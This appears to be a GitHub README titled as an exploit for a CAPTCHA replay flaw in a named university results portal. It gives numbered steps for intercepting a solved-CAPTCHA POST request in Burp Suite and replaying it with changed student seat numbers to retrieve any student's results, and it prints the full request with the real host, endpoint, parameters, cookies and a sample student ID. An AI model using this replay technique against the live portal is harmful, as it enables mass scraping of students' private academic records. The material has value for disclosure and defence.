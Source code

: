 # 📜 KLE Tech eResults CAPTCHA Bypass Exploit

## 🚨 Vulnerability: Persistent CAPTCHA Token Allows Mass Data Scraping

### **Overview**
We discovered a security vulnerability in the [KLE Tech eResults](https://eresults.kletech.ac.in) portal that allows **automated retrieval of student results** without solving multiple CAPTCHAs. The system fails to **generate a new CAPTCHA token** when navigating **back** to the results page, allowing an attacker to reuse the CAPTCHA token for **multiple requests**.  

This **flaw enables mass scraping of student records**, violating privacy policies and exposing sensitive academic data.  

---

## 🎯 **Vulnerability Type**
- **CAPTCHA Replay Attack**
- **Broken Authentication Mechanism**
- **Insecure Direct Object Reference (IDOR)**

---

## 🔍 **How the Exploit Works**
1. **Navigate to the eResults page** and enter a valid **USN** (University Seat Number).  
2. **Solve the CAPTCHA** and submit the request.  
3. **Intercept the request in Burp Suite**, capturing the **POST request** with the solved CAPTCHA.  
4. **Go back in the browser** and try entering a **different USN** → The CAPTCHA does not refresh.  
5. **Replay the intercepted request** with **modified USN values** while keeping the same CAPTCHA token.  
6. The server processes each request **without re-validating the CAPTCHA**, allowing retrieval of **any student's results**.

---

## 🔎 **Burp Suite Request & Response Analysis**

### **🔹 Original Request**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs110&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
